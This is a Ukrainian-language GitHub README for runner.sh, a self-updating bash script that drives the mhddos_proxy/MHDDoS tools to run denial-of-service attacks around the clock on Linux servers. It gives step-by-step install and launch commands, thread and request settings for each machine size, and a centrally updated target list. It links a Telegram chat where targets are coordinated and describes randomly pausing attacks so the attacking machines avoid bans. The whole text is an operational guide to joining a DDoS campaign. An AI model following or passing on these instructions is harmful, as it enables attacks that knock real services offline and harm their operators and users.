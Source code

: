# Опис
  
runner.sh - ПОВНІСТЮ АВТООНОВЛЮВАНИЙ (оновлює цілі та себе) bash-скрипт для Linux-машин, що керує [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy)  
Також він автоматично оновлює не лише свій скрипт та цілі, а й скрипти з mhddos_proxy та MHDDoS: https://github.com/alexnest-ua/auto_mhddos_alexnest/blob/0566b426a4960b283024a37b6995c5b8260d2795/runner.sh#L46
Також мій скрипт імітує роботу людини (вимикає увесь ДДоС на 1-10 (рандомно) хвилин, тобто вашу машину 95% не забанять, якщо правильно підібрати кількість потоків: https://github.com/alexnest-ua/auto_mhddos_alexnest/blob/0566b426a4960b283024a37b6995c5b8260d2795/runner.sh#L132
Скрипт розподіляє список машин по різним цілям  
  
чат де координуються цілі, та ви можете задати свої питання: https://t.me/+8swDHSe_ROI5MmJi  
  
Туторіал по створенню автоматичних та автономних Linux-серверів: https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5c  

## Налаштування (встановлення)
  
* щоб скачати на Linux-машину:  
```shell
cd ~  
sudo rm -r auto_mhddos_alexnest
sudo apt install git -y  
git clone https://github.com/alexnest-ua/auto_mhddos_alexnest
```
  
**ОБОВ'ЯЗКОВО** - запуск файлу, який встановить скрипти MHDDoS та усі залежності (один раз на новій машині):
```shell
cd ~/auto_mhddos_alexnest
bash setup.sh
```
*чекаємо 5-10 хвилин поки все встановиться.*  

## Запуск на роботу у фоні (24/7 на Linux-сервері) - можна закривати термінал
Запуск автоматичного ДДоСу:  
```shell 
cd ~/auto_mhddos_alexnest
screen -S "runner" bash runner.sh  
```
Настикаємо Ctrl+A , потім Ctrl+D - І ВСЕ ГОТОВО - ПРАЦЮЄ В ФОНІ  
якщо все успішно буде повідомлення [detached from runner]  

**!!!УВАГА!!!** runner.sh підтримує наступні параметри (САМЕ У ТАКОМУ ПОРЯДКУ ТА ЛИШЕ У ТАКІЙ КІЛЬКОСТІ(мінімум 3)), але можно і без них:  
runner.sh [num_of_copies] [threads] [rpc] [debug]  
- num_of_copies - кількість атакуємих за один прохід цілей
- threads - кількість потоків на кожне ядро процесора
- rpc - кількість запитів на проксі перед відправкою на ціль
- debug - можливість дебагу (якщо хочете бачити повний інфу по атаці - у 4-ий параметр додайте --debug)
  
### Приклади команд з різними параметрами:
перед уведенням команд обов'язково зробити ось це:
```shell
cd ~/auto_mhddos_alexnest
```
1. ***Для лінивих*** (буде обрано за замовчуванням: num_of_copies=1, threads=1500 rpc=500 debug="" (1 ціль, 1500 потоків, 500 запитів на проксі перед відправкою на ціль, без дебагу)
```shell
screen -S "runner" bash runner.sh 
```
Настикаємо Ctrl+A , потім Ctrl+D - І ВСЕ ГОТОВО - ПРАЦЮЄ В ФОНІ  
якщо все успішно буде повідомлення [detached from runner]  

2. Слаба машина(1 CPU + 1-2 GB RAM), саме ці параметри за замовчуванням:
```shell
screen -S "runner" bash runner.sh 1 1500 500
```
Настикаємо Ctrl+A , потім Ctrl+D - І ВСЕ ГОТОВО - ПРАЦЮЄ В ФОНІ  
якщо все успішно буде повідомлення [detached from runner]  

3. Середня машина(2 CPUs + 2-4 GB RAM):
```shell
screen -S "runner" bash runner.sh 2 2000 750
```
Настикаємо Ctrl+A , потім Ctrl+D - І ВСЕ ГОТОВО - ПРАЦЮЄ В ФОНІ  
якщо все успішно буде повідомлення [detached from runner]  

4. Середня+ машина(2-4 CPUs + 4-8 GB RAM):
```shell
screen -S "runner" bash runner.sh 3 2500 750
```
Настикаємо Ctrl+A , потім Ctrl+D - І ВСЕ ГОТОВО - ПРАЦЮЄ В ФОНІ  
якщо все успішно буде повідомлення [detached from runner]  

5. Нормальна машина(4 CPUs + 8 GB RAM):
```shell
screen -S "runner" bash runner.sh 4 3000 1000
```
Настикаємо Ctrl+A , потім Ctrl+D - І ВСЕ ГОТОВО - ПРАЦЮЄ В ФОНІ  
якщо все успішно буде повідомлення [detached from runner]  

6. Потужна машина(4+ CPUs + 8+ CB RAM):
```shell
screen -S "runner" bash runner.sh all 4000 2000
```
Настикаємо Ctrl+A , потім Ctrl+D - І ВСЕ ГОТОВО - ПРАЦЮЄ В ФОНІ  
якщо все успішно буде повідомлення [detached from runner]  

  
*також ви можете змінювати параметри на будь-які інші значення, але я рекомендую саме ці.*  
*також можете додавати останнім **4-тим** параметром --debug, що слідкувати за ходом атаки, наприклад:*  
```shell
screen -S "runner" bash runner.sh 1 1500 500 --debug
```
Настикаємо Ctrl+A , потім Ctrl+D - І ВСЕ ГОТОВО - ПРАЦЮЄ В ФОНІ  
якщо все успішно буде повідомлення [detached from runner]  


* Приклад БЕЗ параметру --debug:
![image](https://user-images.githubusercontent.com/74729549/160018092-45e2e40d-f70c-4f6b-af14-6d0066dee1c7.png)
* Приклад З параметром --debug:
![image](https://user-images.githubusercontent.com/74729549/160018182-991ee42a-1ff0-434c-86fc-453b7909e96d.png)


* щоб подивитися що там працює у фоні:  
```shell 
screen -ls  
```
* щоб перейти до процесу та дізнатися як у нього справи (що він виводить), пишіть:  
```shell 
screen -r runner  
```
Після цього, якщо хочете вбити процес - натискайте Ctrl+C  
щоб вбити усі підпроцеси прописуєте (У ІНШОМУ ВІКНІ ТЕРМІНАЛУ):  
```shell
sudo pkill -e -f runner.sh
sudo pkill -e -f runner.py
sudo pkill -e -f ./start.py
```

* щоб знову від'єднатися, та залишити його працювати:  
Настикаємо Ctrl+A , потім Ctrl+D - І ВСЕ ГОТОВО - ПРАЦЮЄ В ФОНІ  
  
Якщо немає Docker на машині(ВСТАНОВІТЬ НА МАЙБУТНЄ, бо можуть бути проблеми з python-скриптом, у зв'язку з кривими правками від розробників(якщо таке буде я автоматично переведу скрипт на docker)):  
```shell
cd auto_mhddos_test
bash install_docker.sh
```    
* якщо цікаво, чи запустилася docker-команда пропишіть це(ЗАРАЗ НЕ АКТУАЛЬНО):
```shell 
sudo docker ps -af ancestor=ghcr.io/porthole-ascend-cinnamon/mhddos_proxy:latest  
```
Вам видасть список запущенних контейнерів  
  
щоб вбити запущені docker-контейнери з mhddos_proxy пишіть це:
```shell
sudo docker kill $(sudo docker ps -aqf ancestor=ghcr.io/porthole-ascend-cinnamon/mhddos_proxy:latest) 
```

УВАГА!!! Скрипт при рестарті (кожні 10-20 хвилин) вбиває старі запущені скрипти саме з MHDDoSом, тому якщо запускаєте цей скрипт на машині-Linux, то інший MHDDoS запускайте лише через docker, або на іншій машині-Linux
  
## Список цілей  

  
runner.sh підтримує единий [список цілей](https://raw.githubusercontent.com/alexnest-ua/auto_mhddos_alexnest/main/runner_targets_new), який можна тримати на github і постійно оновлювати.  
  
  
  
Цілі не обов'язково видаляти із списку. Їх можна просто закоментувати і розкоментувати пізніше, якщо вони знов знадобляться. Скрипт використовує лише строки, які починаються на 'runner.py'.  

